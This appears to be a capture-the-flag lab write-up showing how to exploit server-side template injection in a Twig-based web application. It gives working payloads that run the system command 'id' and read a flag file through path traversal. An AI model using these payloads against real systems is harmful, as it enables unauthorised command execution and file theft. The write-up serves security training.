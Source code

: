 # Exploiting SSTI - Twig

Exploit the SSTI vulnerability to obtain RCE and read the flag.

In this exercise the web application is running the Twig template engine, so lets focus on its specific payloads to retrieve the flag.

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets try to get some information with this payload:

```twig
{{ _self }}
```

<figure><img src="../../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

And its working! Now lets work on the payload.

Lets try to use the PHP built-in function `system`:

```twig
{{ ['id'] | filter('system') }}
```

<figure><img src="../../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see we manage to execute the `id` command on the webserver. Now all we have to do is to work on the payload to retrieve the flag. We can use this one:

```twig
{{ ['cat ../../../flag.txt'] | filter('system') }}
```

<figure><img src="../../../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we did it!
